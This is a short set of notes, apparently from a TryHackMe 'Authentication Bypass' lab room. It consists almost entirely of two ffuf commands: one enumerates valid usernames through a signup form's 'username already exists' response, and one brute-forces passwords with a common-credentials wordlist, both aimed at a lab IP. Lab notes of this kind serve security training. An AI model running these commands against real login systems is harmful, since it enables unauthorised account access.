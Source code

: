 ![](https://tryhackme-images.s3.amazonaws.com/room-icons/098ee61b8842b7e6fc27e9eea9d7e1dc.png)

# Authentication Bypass


## Bruteforcing


**User Signup Enumeration**

```
 ffuf -w stuff/tools/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.17.37/customers/signup -mr "username already exists"
```


**Bruteforce Passwords**

```
ffuf -w valid_usernames.txt:W1,stuff/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.17.37/customers/login -fc 200
```

